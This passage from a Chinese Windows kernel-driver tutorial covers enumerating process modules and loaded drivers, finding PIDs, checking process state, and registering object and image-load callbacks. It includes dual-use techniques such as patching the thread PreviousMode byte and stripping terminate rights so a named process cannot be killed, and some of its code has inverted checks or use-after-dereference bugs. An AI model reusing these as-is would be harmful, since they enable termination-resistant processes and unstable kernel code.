NTKERNELAPI PPEB PsGetProcessPeb(PEPROCESS Process);
NTKERNELAPI HANDLE PsGetProcessInheritedFromUniqueProcessId(IN PEPROCESS Process);

// 根据进程ID返回进程EPROCESS失败返回NULL
PEPROCESS LookupProcess(HANDLE Pid)
{
    PEPROCESS eprocess = NULL;
    if (NT_SUCCESS(PsLookupProcessByProcessId(Pid, &eprocess)))
        return eprocess;
    else
        return NULL;
}

// 枚举指定进程的模块
VOID EnumModule(PEPROCESS Process)
{
    SIZE_T Peb = 0;
    SIZE_T Ldr = 0;
    PLIST_ENTRY ModListHead = 0;
    PLIST_ENTRY Module = 0;
    ANSI_STRING AnsiString;
    KAPC_STATE ks;
    
  // EPROCESS地址无效则退出
    if (!MmIsAddressValid(Process))
        return;
    
  // 获取PEB地址
    Peb = (SIZE_T)PsGetProcessPeb(Process);
    
  // PEB地址无效则退出
    if (!Peb)
        return;
    
  // 依附进程
    KeStackAttachProcess(Process, &ks);
    __try
    {
        // 获得LDR地址
        Ldr = Peb + (SIZE_T)LdrInPebOffset;
        
    // 测试是否可读，不可读则抛出异常退出
        ProbeForRead((CONST PVOID)Ldr, 8, 8);
        
    // 获得链表头
        ModListHead = (PLIST_ENTRY)(*(PULONG64)Ldr + ModListInPebOffset);
        
    // 再次测试可读性
        ProbeForRead((CONST PVOID)ModListHead, 8, 8);
        
    // 获得第一个模块的信息
        Module = ModListHead->Flink;
        while (ModListHead != Module)
        {
            // 打印信息：基址、大小、DLL路径
            DbgPrint("模块基址=%p 大小=%ld 路径=%wZ\n",(PVOID)(((PLDR_DATA_TABLE_ENTRY)Module)->DllBase),
                (ULONG)(((PLDR_DATA_TABLE_ENTRY)Module)->SizeOfImage),&(((PLDR_DATA_TABLE_ENTRY)Module)->FullDllName));
            
      Module = Module->Flink;
            
      // 测试下一个模块信息的可读性
            ProbeForRead((CONST PVOID)Module, 80, 8);
        }
    }
    __except (EXCEPTION_EXECUTE_HANDLER){;}
    
  // 取消依附进程
    KeUnstackDetachProcess(&ks);
}

// 通过枚举的方式定位到指定的进程，这里传递一个进程名称
VOID MyEnumModule(char *ProcessName)
{
    ULONG i = 0;
    PEPROCESS eproc = NULL;
    for (i = 4; i<100000000; i = i + 4)
    {
        eproc = LookupProcess((HANDLE)i);
        if (eproc != NULL)
        {
            ObDereferenceObject(eproc);
            if (strstr(PsGetProcessImageFileName(eproc), ProcessName) != NULL)
            {
        // 相等则说明是我们想要的进程，直接枚举其中的线程
                EnumModule(eproc);
            }
        }
    }
}

VOID DriverUnload(IN PDRIVER_OBJECT DriverObject)
{

}

NTSTATUS DriverEntry(IN PDRIVER_OBJECT DriverObject, IN PUNICODE_STRING RegistryPath)
{
    MyEnumModule("calc.exe");
    DriverObject->DriverUnload = DriverUnload;
    return STATUS_SUCCESS;
}
```

输出效果图如下所示：



#### 4.2.4 内核中实现枚举加载的驱动

内核中的SYS文件也是通过双向链表的方式相连接的，我们可以通过遍历驱动自身`LDR_DATA_TABLE_ENTRY`结构(遍历自身DriverSection成员)，就能够得到全部的模块信息。

在操作系统内核中，SYS文件通常作为设备驱动程序的一部分加载到内存中。为了管理这些模块，Windows使用了一个双向链表来维护已加载模块的信息。链表中的每个节点是一个`LDR_DATA_TABLE_ENTRY`结构，它包含了模块的各种信息，如模块名、模块基地址、模块大小、模块导入表等等。

当一个SYS文件被加载到内存中时，系统会创建一个`LDR_DATA_TABLE_ENTRY`结构并将其插入到内核模块列表的末尾。在插入时，系统会将新节点的前一个节点的`ForwardLink`指向新节点，将新节点的`BackLink`指向前一个节点，并将新节点的`ForwardLink`指向链表尾部的哨兵节点。

遍历内核模块列表时，可以通过遍历`LDR_DATA_TABLE_ENTRY`结构中的`DriverSection`成员，找到所有已加载的SYS文件，并获得它们的基本信息。从链表头部开始遍历链表，可以使用`ForwardLink`指针来访问下一个节点，直到访问到链表尾部的哨兵节点为止。

如下代码中，在`DriverEntry()`开始处，定义了一些变量，包括`pLdr、pListEntry、pModule`和`pCurrentListEntry`，它们分别代表当前驱动程序的`LDR_DATA_TABLE_ENTRY`结构、模块列表中的链表头、当前模块的`LDR_DATA_TABLE_ENTRY`结构和当前遍历到的链表节点。

接着，使用`DriverObject->DriverSection`获取当前驱动程序的`LDR_DATA_TABLE_ENTRY`结构，并通过`pLdr->InLoadOrderLinks.Flink`获取模块列表中的链表头。使用`pListEntry->Flink`获取链表中的第一个节点，并将其赋值给`pCurrentListEntry`。

之后，通过一个循环遍历整个模块列表。在每次循环中，使用`CONTAINING_RECORD`宏获取当前节点对应的`LDR_DATA_TABLE_ENTRY`结构，并检查该模块的基本信息是否为空。如果不为空，将该模块的基址、结束地址、大小和模块名打印到调试窗口中。

最后，在函数结尾处设置了驱动程序的卸载例程`DriverUnload`，并返回`STATUS_SUCCESS`表示函数执行成功，至此枚举内核模块就完成了，其完整代码如下；
```c
#include <ntddk.h>
#include <wdm.h>

typedef struct _LDR_DATA_TABLE_ENTRY {
    LIST_ENTRY InLoadOrderLinks;
    LIST_ENTRY InMemoryOrderLinks;
    LIST_ENTRY InInitializationOrderLinks;
    PVOID DllBase;
    PVOID EntryPoint;
    ULONG SizeOfImages;
    UNICODE_STRING FullDllName;
    UNICODE_STRING BaseDllName;
    ULONG Flags;
    USHORT LoadCount;
    USHORT TlsIndex;
    union {
        LIST_ENTRY HashLinks;
        struct {
            PVOID SectionPointer;
            ULONG CheckSum;
        };
    };
    union {
        struct {
            ULONG TimeDateStamp;
        };
        struct {
            PVOID LoadedImports;
        };
    };
}LDR_DATA_TABLE_ENTRY, *PLDR_DATA_TABLE_ENTRY;

VOID DriverUnload(IN PDRIVER_OBJECT DriverObject)
{

}

NTSTATUS DriverEntry(IN PDRIVER_OBJECT DriverObject, PUNICODE_STRING RegistryPath)
{
    ULONG count = 0;
    NTSTATUS Status;
    DriverObject->DriverUnload = DriverUnload;
    
    PLDR_DATA_TABLE_ENTRY pLdr = NULL;
    PLIST_ENTRY pListEntry = NULL;
    PLDR_DATA_TABLE_ENTRY pModule = NULL;
    PLIST_ENTRY pCurrentListEntry = NULL;

    pLdr = (PLDR_DATA_TABLE_ENTRY)DriverObject->DriverSection;
    pListEntry = pLdr->InLoadOrderLinks.Flink;
    pCurrentListEntry = pListEntry->Flink;

    while (pCurrentListEntry != pListEntry)
    {
        pModule = CONTAINING_RECORD(pCurrentListEntry, LDR_DATA_TABLE_ENTRY, InLoadOrderLinks);
        if (pModule->BaseDllName.Buffer != 0)
        {
            DbgPrint("基址：%p ---> 偏移：%p ---> 结束地址：%p---> 模块名：%wZ \r\n", pModule->DllBase, pModule->SizeOfImages - (LONGLONG)pModule->DllBase, 
                (LONGLONG)pModule->DllBase + pModule->SizeOfImages,pModule->BaseDllName);
        }
        pCurrentListEntry = pCurrentListEntry->Flink;
    }

    DriverObject->DriverUnload = DriverUnload;
    return STATUS_SUCCESS;
}
```

输出效果图如下所示：



#### 4.2.5 内核中实现获取特定进程PID

用户传入指定进程名称，调用`GetPidByProcessName()`可得到该进程名称所对应的进程PID号。这段代码其大多数功能实现已经在前面的章节中实现了，需要注意的是`GetProcessID()`函数内部，通过`strstr(PsGetProcessImageFileName(eproc), ProcessName) != NULL`对比如果是我们所需要提取的进程结构，则直接`PsGetProcessId(eproc)`返回该进程的PID号。
```c
#include <ntifs.h>
#include <windef.h>

// 声明API
NTKERNELAPI UCHAR* PsGetProcessImageFileName(IN PEPROCESS Process);
NTKERNELAPI PPEB PsGetProcessPeb(PEPROCESS Process);
NTKERNELAPI HANDLE PsGetProcessInheritedFromUniqueProcessId(IN PEPROCESS Process);

// 根据进程ID返回进程EPROCESS，失败返回NULL
PEPROCESS LookupProcess(HANDLE Pid)
{
  PEPROCESS eprocess = NULL;
  if (NT_SUCCESS(PsLookupProcessByProcessId(Pid, &eprocess)))
    return eprocess;
  else
    return NULL;
}

// 根据用户传入进程名得到该进程PID
HANDLE GetProcessID(char *ProcessName)
{
  ULONG i = 0;
  PEPROCESS eproc = NULL;
  for (i = 4; i<100000000; i = i + 4)
  {
    eproc = LookupProcess((HANDLE)i);
    if (eproc != NULL)
    {
      ObDereferenceObject(eproc);
      if (strstr(PsGetProcessImageFileName(eproc), ProcessName) != NULL)
      {
        return PsGetProcessId(eproc);
      }
    }
  }
  return NULL;
}

VOID DriverUnload(IN PDRIVER_OBJECT DriverObject)
{

}

NTSTATUS DriverEntry(IN PDRIVER_OBJECT DriverObject, IN PUNICODE_STRING RegistryPath)
{
  HANDLE ref = GetProcessID("KmdManager.exe");
  DbgPrint("[LyShark.com] 进程PID = %d \n", ref);

  DriverObject->DriverUnload = DriverUnload;
  return STATUS_SUCCESS;
}
```

输出效果图如下所示：



#### 4.2.6 内核中实现判断进程状态

内核中实现判断进程状态的方法，通过传入一个 `EProcess` 结构体来判断指定进程的状态，包括进程是否存在、是否为僵尸进程等。这些功能通常被用于反内核工具的开发。

接下来，将逐个介绍并实现几个相关的功能，包括 `IsProcessDie` 函数用于验证进程空间是否有效，`IsRealProcess` 函数用于验证进程是否是真实进程，以及 `GetProcessCreateTime` 函数用于获取进程创建时间戳等功能。

IsProcessDie 函数用于验证特定进程空间是否有效，函数接受一个 `PEPROCESS` 类型的参数 `EProcess`，表示待验证的进程。函数会检查传入的 `EProcess` 参数是否为有效地址，并且会检查进程对象表的地址是否为有效地址。如果传入的参数或进程对象表地址无效，函数将返回 TRUE，表示进程空间已经无效或不存在。反之，如果地址有效，函数将返回 FALSE，表示进程空间有效。

函数的执行步骤如下：

 - 首先判断 `MmIsAddressValid` 函数是否存在且有效，如果无效则直接返回 TRUE，表示进程空间无效。
 - 检查传入的 `EProcess` 参数是否为有效地址，如果地址无效则直接返回 TRUE，表示进程空间无效。
 - 通过计算 `EProcess` 结构体中进程对象表的偏移量，并检查该地址是否为有效地址。如果进程对象表地址无效，表示进程空间已经无效或不存在，直接返回 TRUE。
 - 如果传入的参数和进程对象表地址均为有效地址，则获取进程对象表指针并进行进一步检查。
 - 如果进程对象表指针为 NULL 或者其地址无效，则表示进程空间已经无效或不存在，返回 TRUE，否则返回 FALSE，表示进程空间有效。

```c
// 验证进程空间是否有效
BOOLEAN IsProcessDie(PEPROCESS EProcess)
{
  BOOLEAN bDie = FALSE;

  if (MmIsAddressValid &&
    EProcess &&
    MmIsAddressValid(EProcess) &&
    MmIsAddressValid((PVOID)((ULONG_PTR)EProcess + ObjectTableOffsetOf_EPROCESS)))
  {
    PVOID ObjectTable = *(PVOID*)((ULONG_PTR)EProcess + ObjectTableOffsetOf_EPROCESS);

    if (!ObjectTable || !MmIsAddressValid(ObjectTable))
    {
      bDie = TRUE;
    }
  }
  else
  {
    bDie = TRUE;
  }
  return bDie;
}
```

IsRealProcess 函数的功能是验证进程是否是僵尸进程。该函数接受一个 `PEPROCESS` 类型的参数 `EProcess`，表示待验证的进程。函数内部会先通过 `KeGetObjectType` 函数获取传入的进程对象的类型，然后将其与进程类型进行比较，如果相同且进程空间有效，则说明该进程不是僵尸进程，返回 TRUE，否则返回 FALSE。

在 `KeGetObjectType` 函数中，先判断输入参数是否为有效地址，如果无效则返回 NULL，表示取对象类型失败。如果地址有效，则通过 `GetFunctionAddressByName` 函数获取 `ObGetObjectType` 函数的地址，然后调用 `ObGetObjectType` 函数获取对象类型。最后将对象类型作为返回值返回。

在`IsRealProcess`主函数中，首先获取进程类型，然后检查传入的进程对象是否为有效地址。如果进程类型和获取的对象类型相同，且进程空间有效，则说明该进程不是僵尸进程，返回 TRUE。反之，如果进程对象无效或进程类型不匹配，则说明该进程是僵尸进程，返回 FALSE。
```c
// 取出对象类型
ULONG_PTR KeGetObjectType(PVOID Object)
{
  ULONG_PTR ObjectType = NULL;
  pfnObGetObjectType ObGetObjectType = NULL;

  if (!MmIsAddressValid || !Object || !MmIsAddressValid(Object))
  {
    return NULL;
  }
  ObGetObjectType = (pfnObGetObjectType)GetFunctionAddressByName(L"ObGetObjectType");
  if (ObGetObjectType)
  {
    ObjectType = ObGetObjectType(Object);
  }
  return ObjectType;
}

// 验证进程是否是僵尸进程
BOOLEAN IsRealProcess(PEPROCESS EProcess)
{
  ULONG_PTR ObjectType;
  ULONG_PTR    ObjectTypeAddress;
  BOOLEAN bRet = FALSE;

  ULONG_PTR ProcessType = ((ULONG_PTR)*PsProcessType);

  if (ProcessType && MmIsAddressValid && EProcess && MmIsAddressValid((PVOID)(EProcess)))
  {
    ObjectType = KeGetObjectType((PVOID)EProcess);
    if (ObjectType &&
      ProcessType == ObjectType &&
      !IsProcessDie(EProcess))
    {
      bRet = TRUE;
    }
  }

  return bRet;
}
```

GetProcessCreateTime 函数用于获取指定进程的创建时间戳。通过调用`PsLookupProcessByProcessId`函数获取到进程对象，然后调用`PsGetProcessCreateTimeQuadPart`函数获取进程的创建时间戳。在获取时间戳之前，需要将当前线程的`Previous Mode`设置为内核模式，以便访问`EPROCESS`结构体中的成员。在获取时间戳之后，需要将`Previous Mode`恢复到之前的值，并释放进程对象。

函数的执行步骤如下：

 - 通过调用`PsLookupProcessByProcessId`函数获取指定进程的进程对象。
 - 调用`PsGetCurrentThread`函数获取当前线程的`ETHREAD`对象，调用`ChangePreMode`函数将当前线程的`Previous Mode`设置为内核模式，并保存之前的`Previous Mode`的值。
 - 调用`PsGetProcessCreateTimeQuadPart`函数获取指定进程的创建时间戳，并将时间戳保存到`OutputBuffer`指向的缓冲区中。
 - 最后调用`RecoverPreMode`函数将当前线程的`Previous Mode`恢复到之前的值，并释放进程对象。

```c
// 获取进程时间戳
BOOLEAN GetProcessCreateTime(ULONG_PTR ProcessID, LONGLONG* OutputBuffer)
{
  NTSTATUS  Status;
  PEPROCESS EProcess = NULL;
  PETHREAD  EThread = NULL;
  CHAR      PreMode = 0;

  Status = PsLookupProcessByProcessId((HANDLE)ProcessID, &EProcess);
  if (!NT_SUCCESS(Status))
  {
    return FALSE;
  }

  EThread = PsGetCurrentThread();
  PreMode = ChangePreMode(EThread);
  *OutputBuffer = PsGetProcessCreateTimeQuadPart(EProcess);
  RecoverPreMode(EThread, PreMode);
  ObfDereferenceObject(EProcess);
  return TRUE;
}
```

我们将上述三个功能进行整合，并最终得到一段完整的代码，如下所示；
```c
#include <ntifs.h>

ULONG_PTR ObjectTableOffsetOf_EPROCESS = 0;   // 句柄表偏移
ULONG_PTR PreviousModeOffsetOf_KTHREAD = 0;   // 权限相关的偏移

typedef ULONG_PTR(*pfnObGetObjectType)(PVOID pObject);

// 验证进程空间是否有效
BOOLEAN IsProcessDie(PEPROCESS EProcess)
{
    BOOLEAN bDie = FALSE;

    if (MmIsAddressValid &&
        EProcess &&
        MmIsAddressValid(EProcess) &&
        MmIsAddressValid((PVOID)((ULONG_PTR)EProcess + ObjectTableOffsetOf_EPROCESS)))
    {
        PVOID ObjectTable = *(PVOID*)((ULONG_PTR)EProcess + ObjectTableOffsetOf_EPROCESS);

        if (!ObjectTable || !MmIsAddressValid(ObjectTable))
        {
            bDie = TRUE;
        }
    }
    else
    {
        bDie = TRUE;
    }
    return bDie;
}

//通过 函数名称 得到函数地址
PVOID GetFunctionAddressByName(WCHAR *szFunction)
{
    UNICODE_STRING uniFunction;
    PVOID AddrBase = NULL;

    if (szFunction && wcslen(szFunction) > 0)
    {
        RtlInitUnicodeString(&uniFunction, szFunction);
        AddrBase = MmGetSystemRoutineAddress(&uniFunction);
    }
    return AddrBase;
}

// 取出对象类型
ULONG_PTR KeGetObjectType(PVOID Object)
{
    ULONG_PTR ObjectType = NULL;
    pfnObGetObjectType ObGetObjectType = NULL;

    if (!MmIsAddressValid || !Object || !MmIsAddressValid(Object))
    {
        return NULL;
    }
    ObGetObjectType = (pfnObGetObjectType)GetFunctionAddressByName(L"ObGetObjectType");
    if (ObGetObjectType)
    {
        ObjectType = ObGetObjectType(Object);
    }
    return ObjectType;
}

// 验证进程是否是僵尸进程
BOOLEAN IsRealProcess(PEPROCESS EProcess)
{
    ULONG_PTR ObjectType;
    ULONG_PTR    ObjectTypeAddress;
    BOOLEAN bRet = FALSE;

    ULONG_PTR ProcessType = ((ULONG_PTR)*PsProcessType);

    if (ProcessType && MmIsAddressValid && EProcess && MmIsAddressValid((PVOID)(EProcess)))
    {
        ObjectType = KeGetObjectType((PVOID)EProcess);
        if (ObjectType &&
            ProcessType == ObjectType &&
            !IsProcessDie(EProcess))
        {
            bRet = TRUE;
        }
    }

    return bRet;
}

CHAR ChangePreMode(PETHREAD EThread)
{
    CHAR PreMode = *(PCHAR)((ULONG_PTR)EThread + PreviousModeOffsetOf_KTHREAD);
    *(PCHAR)((ULONG_PTR)EThread + PreviousModeOffsetOf_KTHREAD) = KernelMode;
    return PreMode;
}

VOID RecoverPreMode(PETHREAD EThread, CHAR PreMode)
{
    *(PCHAR)((ULONG_PTR)EThread + PreviousModeOffsetOf_KTHREAD) = PreMode;
}

// 获取进程时间戳
BOOLEAN GetProcessCreateTime(ULONG_PTR ProcessID, LONGLONG* OutputBuffer)
{
    NTSTATUS  Status;
    PEPROCESS EProcess = NULL;
    PETHREAD  EThread = NULL;
    CHAR PreMode = 0;

    Status = PsLookupProcessByProcessId((HANDLE)ProcessID, &EProcess);
    if (!NT_SUCCESS(Status))
    {
        return FALSE;
    }

    EThread = PsGetCurrentThread();
    PreMode = ChangePreMode(EThread);
    *OutputBuffer = PsGetProcessCreateTimeQuadPart(EProcess);
    RecoverPreMode(EThread, PreMode);
    ObfDereferenceObject(EProcess);
    return TRUE;
}

VOID UnDriver(PDRIVER_OBJECT driver)
{
    DbgPrint("驱动卸载成功 \n");
}

NTSTATUS DriverEntry(IN PDRIVER_OBJECT Driver, PUNICODE_STRING RegistryPath)
{
    NTSTATUS Status = STATUS_UNSUCCESSFUL;
    PEPROCESS EProcess = NULL;
    HANDLE pid = (HANDLE)6932;

    // 根据PID获取进程EProcess结构
    Status = PsLookupProcessByProcessId(pid, &EProcess);

    // 判断进程是否有效
    if (NT_SUCCESS(Status) && IsProcessDie(EProcess))
    {
        DbgPrint("[LyShark.com] 进程有效 \n");
    }

    // 判断是否为僵尸进程
    if (NT_SUCCESS(Status) && IsRealProcess(EProcess))
    {
        DbgPrint("[LyShark.com] 僵尸进程 \n");
    }

    // 验证进程时间戳
    LONGLONG time;
    BOOLEAN ref = GetProcessCreateTime(pid, &time);
    if (NT_SUCCESS(Status) && ref)
    {
        DbgPrint("[LyShark.com] 该进程时间戳: %x \n", time);
    }

    Driver->DriverUnload = UnDriver;
    return STATUS_SUCCESS;
}
```

输出效果图如下所示：



### 4.3 监控进程与线程对象操作

在内核中，可以使用`ObRegisterCallbacks`这个内核回调函数来实现监控进程和线程对象操作。通过注册一个`OB_CALLBACK_REGISTRATION`回调结构体，可以指定所需的回调函数和回调的监控类型。这个回调结构体包含了回调函数和监控的对象类型，还有一个`Altitude`字段，用于指定回调函数的优先级。优先级越高的回调函数会先被调用，如果某个回调函数返回了一个非NULL值，后续的回调函数就不会被调用。

当有进程或线程对象创建、删除、复制或重命名时，内核会调用注册的回调函数。回调函数可以访问被监控对象的信息，如句柄、进程ID等，并可以采取相应的操作，如打印日志、记录信息等。

首先我们先来解释一下`OB_CALLBACK_REGISTRATION`结构体，`OB_CALLBACK_REGISTRATION`结构体是用于向内核注册回调函数的结构体，其中包含了回调函数和监控的对象类型等信息。

OB_CALLBACK_REGISTRATION结构体的定义：
```c
typedef struct _OB_CALLBACK_REGISTRATION {
    PVOID RegistrationContext;
    POB_OPERATION_REGISTRATION OperationRegistration;
} OB_CALLBACK_REGISTRATION, *POB_CALLBACK_REGISTRATION;
```
其中，`RegistrationContext`是一个指针，指向一个可以在回调函数中访问的上下文数据结构，可以用来传递一些参数或状态信息。`OperationRegistration`是一个指向`OB_OPERATION_REGISTRATION`结构体的指针，该结构体指定了回调函数的相关信息，包括回调函数的地址、监控的对象类型、回调函数的优先级等。

OB_OPERATION_REGISTRATION结构体的定义如下：
```c
typedef struct _OB_OPERATION_REGISTRATION {
    POBJECT_TYPE ObjectType;
    OB_OPERATION Operations;
    POB_PRE_OPERATION_CALLBACK PreOperation;
    POB_POST_OPERATION_CALLBACK PostOperation;
} OB_OPERATION_REGISTRATION, *POB_OPERATION_REGISTRATION;
```
其中，`ObjectType`是一个指针，指向要监控的对象类型的`OBJECT_TYPE`结构体。

Operations是一个枚举类型，表示要监控的操作类型，可以是如下之一：

 - OB_OPERATION_HANDLE_CREATE：创建对象句柄
 - OB_OPERATION_HANDLE_DUPLICATE：复制对象句柄
 - OB_OPERATION_HANDLE_CLOSE：关闭对象句柄
 - OB_OPERATION_HANDLE_WAIT：等待对象句柄
 - OB_OPERATION_HANDLE_SET_INFORMATION：设置对象句柄信息
 - OB_OPERATION_HANDLE_QUERY_INFORMATION：查询对象句柄信息
 - OB_OPERATION_HANDLE_OPERATION：其他操作

PreOperation和PostOperation分别是指向回调函数的指针，用于指定在进行指定操作之前和之后要执行的回调函数。这两个回调函数的参数和返回值等信息可以参考Microsoft官方文档。

我们以创建一个简单的监控进程对象为例，实现一个自己的进程回调函数`MyObjectCallBack()`当有新进程被加载时，自动路由到我们自己的回调中来；

首先在驱动程序入口处，定义`Base`结构，并初始化`Base.ObjectType`为`PsProcessType`标志着用于监控进程，接着填充`Base.Operations`并初始化为`OB_OPERATION_HANDLE_CREATE`表示当有进程句柄操作时触发回调，最后填充`Base.PreOperation`在回调前触发执行`MyObjectCallBack`自己的回调，当结构体被填充好以后，直接调用`ObRegisterCallbacks()`向内核申请回调事件即可，这段代码实现如下所示；
```c
#include <ntddk.h>
#include <ntstrsafe.h>

PVOID Globle_Object_Handle;

OB_PREOP_CALLBACK_STATUS MyObjectCallBack(PVOID RegistrationContext, POB_PRE_OPERATION_INFORMATION OperationInformation)
{
    DbgPrint("执行了我们的回调函数...");
    return STATUS_SUCCESS;
}

VOID UnDriver(PDRIVER_OBJECT driver)
{
    ObUnRegisterCallbacks(Globle_Object_Handle);
    DbgPrint("回调卸载完成...");
}

NTSTATUS DriverEntry(IN PDRIVER_OBJECT Driver, PUNICODE_STRING RegistryPath)
{
    OB_OPERATION_REGISTRATION Base;                          // 回调函数结构体(你所填的结构都在这里)
    OB_CALLBACK_REGISTRATION CallbackReg;

    CallbackReg.RegistrationContext = NULL;                  // 注册上下文(你回调函数返回参数)
    CallbackReg.Version = OB_FLT_REGISTRATION_VERSION;       // 注册回调版本
    CallbackReg.OperationRegistration = &Base;
    CallbackReg.OperationRegistrationCount = 1;               // 操作计数(下钩数量)
    RtlUnicodeStringInit(&CallbackReg.Altitude, L"600000");   // 长度
    
  Base.ObjectType = PsProcessType;                          // 进程操作类型.此处为进程操作
    Base.Operations = OB_OPERATION_HANDLE_CREATE;             // 操作句柄创建
    Base.PreOperation = MyObjectCallBack;                     // 你自己的回调函数
    Base.PostOperation = NULL;

  // 注册回调
    if (ObRegisterCallbacks(&CallbackReg, &Globle_Object_Handle))
  {
        DbgPrint("回调注册成功...");
  }
    
  Driver->DriverUnload = UnDriver;
    return STATUS_SUCCESS;
}
```

上方代码运行后，我们可以打开`Xuetr`扫描一下内核`Object`钩子，可以看到已经成功挂钩了，输出效果如下图所示；



#### 4.3.1 实现监控进程打开与关闭

接下来我们实现一个简单的需求，通过编写一个自定义`MyObjectCallBack`回调函数实现保护`win32calc.exe`进程不被关闭，本功能实现的关键在于如何获取到监控进程的进程名`GetProcessImageNameByProcessID`函数就是用来实现转换的，通过向此函数内传入一个进程PID则会通过`PsGetProcessImageFileName`输出该进程的进程名。

而当回调函数内接收到此进程名时，则可以通过`strstr(ProcName, "win32calc.exe")`对进程名进行判断，如果匹配到结果，则直接通过`Operation->Parameters->CreateHandleInformation.DesiredAccess = ~THREAD_TERMINATE`去掉`TERMINATE_PROCESS`或`TERMINATE_THREAD`权限即可，此时的进程将会被保护而无法被关闭，这段代码实现如下所示；
```c
#include <ntddk.h>
#include <wdm.h>
#include <ntstrsafe.h>
#define PROCESS_TERMINATE 1

PVOID Globle_Object_Handle;
NTKERNELAPI UCHAR * PsGetProcessImageFileName(__in PEPROCESS Process);

char* GetProcessImageNameByProcessID(ULONG ulProcessID)
{
    NTSTATUS  Status;
    PEPROCESS  EProcess = NULL;
    Status = PsLookupProcessByProcessId((HANDLE)ulProcessID, &EProcess);
    if (!NT_SUCCESS(Status))
        return FALSE;
    ObDereferenceObject(EProcess);
    return (char*)PsGetProcessImageFileName(EProcess);
}

OB_PREOP_CALLBACK_STATUS MyObjectCallBack(PVOID RegistrationContext, POB_PRE_OPERATION_INFORMATION Operation)
{
    char ProcName[256] = { 0 };
    HANDLE pid = PsGetProcessId((PEPROCESS)Operation->Object);           // 取出当前调用函数的PID
    strcpy(ProcName, GetProcessImageNameByProcessID((ULONG)pid));        // 通过PID取出进程名,然后直接拷贝内存
    //DbgPrint("当前进程的名字是：%s", ProcName);

    if (strstr(ProcName, "win32calc.exe"))
    {
        if (Operation->Operation == OB_OPERATION_HANDLE_CREATE)
        {
            if ((Operation->Parameters->CreateHandleInformation.OriginalDesiredAccess & PROCESS_TERMINATE) == PROCESS_TERMINATE)
            {
                DbgPrint("你想结束进程?");

                // 如果是计算器，则去掉它的结束权限，在Win10上无效
                Operation->Parameters->CreateHandleInformation.DesiredAccess = ~THREAD_TERMINATE;
                return STATUS_UNSUCCESSFUL;
            }
        }
    }
    return STATUS_SUCCESS;
}
VOID UnDriver(PDRIVER_OBJECT driver)
{
    ObUnRegisterCallbacks(Globle_Object_Handle);
    DbgPrint("回调卸载完成...");
}

NTSTATUS DriverEntry(IN PDRIVER_OBJECT Driver, PUNICODE_STRING RegistryPath)
{
    NTSTATUS obst = 0;
    OB_CALLBACK_REGISTRATION obReg;
    OB_OPERATION_REGISTRATION opReg;

    memset(&obReg, 0, sizeof(obReg));
    obReg.Version = ObGetFilterVersion();
    obReg.OperationRegistrationCount = 1;
    obReg.RegistrationContext = NULL;
    RtlInitUnicodeString(&obReg.Altitude, L"321125");
    obReg.OperationRegistration = &opReg;

    memset(&opReg, 0, sizeof(opReg));
    opReg.ObjectType = PsProcessType;
    opReg.Operations = OB_OPERATION_HANDLE_CREATE | OB_OPERATION_HANDLE_DUPLICATE;
    opReg.PreOperation = (POB_PRE_OPERATION_CALLBACK)&MyObjectCallBack;
    obst = ObRegisterCallbacks(&obReg, &Globle_Object_Handle);

    Driver->DriverUnload = UnDriver;
    return STATUS_SUCCESS;
}
```

首先运行计算器，然后启动驱动保护，此时我们在任务管理器中就无法结束计算器进程了。



#### 4.3.2 实现监控进程中的模块加载

系统中的模块加载包括用户层模块DLL和内核模块SYS的加载，在内核环境下我们可以调用`PsSetLoadImageNotifyRoutine`内核函数来设置一个映像加载通告例程，当有驱动或者DLL被加载时，回调函数就会被调用从而执行我们自己的回调例程。

PsSetLoadImageNotifyRoutine 函数用来设置一个映像加载通告例程。该函数需要传入一个回调函数的指针，该回调函数会在系统中有驱动程序或 DLL 被加载时被调用。

该函数函数的原型为：
```c
NTKERNELAPI
NTSTATUS
PsSetLoadImageNotifyRoutine(
  PLOAD_IMAGE_NOTIFY_ROUTINE NotifyRoutine
);
```

其中，NotifyRoutine 参数是一个指向映像加载通告例程的函数指针。该函数将在系统中有驱动程序或 DLL 被加载时被调用。

当一个映像被加载时，Windows 内核会检查是否已注册了映像加载通告例程。如果已注册，则内核会调用该例程，将被加载的模块的信息作为参数传递给该例程。通常，该例程会记录或处理这些信息。

需要注意的是，映像加载通告例程应该尽可能地简短，不要执行复杂的操作，以避免影响系统性能。同时，该例程应该是线程安全的，以免发生竞态条件或死锁。

如上函数中`PLOAD_IMAGE_NOTIFY_ROUTINE`用于接收一个自定义函数，该自定义函数需要声明成如下原型；
```c
VOID MyLoadImageNotifyRoutine(
  PUNICODE_STRING FullImageName,
  HANDLE ProcessId,
  PIMAGE_INFO ImageInfo
);
```

 - 参数`FullImageName`参数是指被加载的模块的完整路径名；
 - 参数`ProcessId`参数是指加载该模块的进程ID；
 - 参数`ImageInfo`参数是指与该模块相关的信息，包括其基地址、大小等。在回调函数中，可以对这些信息进行处理，以实现对模块加载的监控。

有了如上知识体系，实现监控的目的就会变得简单，其监控的实现重点是实现自己的`MyLoadImageNotifyRoutine`如下代码中简单实现了当有新的DLL被装载到内存是，则通过`DbgView`输出该模块的具体信息；
```c
#include <ntddk.h>
#include <ntimage.h>

// 用与获取特定基地址的模块入口
PVOID GetDriverEntryByImageBase(PVOID ImageBase)
{
    PIMAGE_DOS_HEADER pDOSHeader;
    PIMAGE_NT_HEADERS64 pNTHeader;
    PVOID pEntryPoint;
    pDOSHeader = (PIMAGE_DOS_HEADER)ImageBase;
    pNTHeader = (PIMAGE_NT_HEADERS64)((ULONG64)ImageBase + pDOSHeader->e_lfanew);
    pEntryPoint = (PVOID)((ULONG64)ImageBase + pNTHeader->OptionalHeader.AddressOfEntryPoint);
    return pEntryPoint;
}

VOID MyLoadImageNotifyRoutine(PUNICODE_STRING FullImageName,HANDLE ProcessId,PIMAGE_INFO ImageInfo)
{
    PVOID pDrvEntry;

  // MmIsAddress 验证地址可用性
    if (FullImageName != NULL && MmIsAddressValid(FullImageName))
    {
        if (ProcessId == 0)
        {
            pDrvEntry = GetDriverEntryByImageBase(ImageInfo->ImageBase);
            DbgPrint("模块名称:%wZ --> 装载基址:%p --> 镜像长度: %d", FullImageName, pDrvEntry,ImageInfo->ImageSize);
        }
    }
}

VOID UnDriver(PDRIVER_OBJECT driver)
{
    PsRemoveLoadImageNotifyRoutine((PLOAD_IMAGE_NOTIFY_ROUTINE)MyLoadImageNotifyRoutine);
    DbgPrint("驱动卸载完成...");
}

NTSTATUS DriverEntry(IN PDRIVER_OBJECT Driver, PUNICODE_STRING RegistryPath)
{
